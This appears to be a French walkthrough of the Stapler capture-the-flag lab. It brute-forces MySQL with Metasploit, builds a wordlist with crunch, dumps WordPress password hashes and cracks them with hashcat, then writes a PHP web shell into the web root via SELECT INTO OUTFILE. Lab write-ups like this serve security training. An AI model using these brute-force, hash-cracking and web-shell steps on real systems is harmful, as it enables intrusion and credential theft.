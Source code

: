 On peut ainsi facilement se connecter à la base de données avec `mysql -u root -p
-h stapler`. \ On aurait aussi pu forcer la connexion à l'aide de métasploit:
```bash
msfconsole
search mysql
use auxiliary/scanner/mysql/mysql_login
show options
set RHOSTS <Target IP>
#set USER_FILE /root/<your_username_file>
set USERNAME root
set PASS_FILE /root/<your_password_file>
exploit
```

\

Pour créer la wordlist on peut utiliser `crunch`: \
```bash
cd /tmp/1.txt
x=""; for i in `seq 1 6`; do x=$x"@"; crunch $i $i -t $x -o $i.txt; done
```


\pagebreak

On a donc:
```bash
mysql -u root -p -h 192.168.56.102
password: plbkac
show databases
use wordpress
show tables
descript wp_users
select * from wp_users
SELECT user_login, user_pass FROM wp_users;
```

Avec hashcat on casse les mots de passe de la base de données pour se connecter
sur le wordpress:

```
cat md5.txt
john:$P$B7889EMq/erHIuZapMB8GEizebcIy9.
...
pam:$P$BuLagypsIJdEuzMkf20XyS5bRm00dQ0

hashcat -a 0 -m 400 md5.txt wordlist -O
hashcat -a 3 -m 400 md5.txt -i -1 ?l?d?u ?1?1?1?1?1?1?1?1?1 -O
hashcat -m 400 md5.txt --username --show
```

On peut alors se connecter avec l'un des users (john est administrateur) sur
[https://stapler/blogblog/wp-admin](https://stapler/blogblog/wp-admin)

Si vous vous souvenez bien on peut exécuter des commandes sur les microsoft sql
servers et sur un server mysql, on peut faire des trucs sympathiques aussi:
```sql
Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";
```
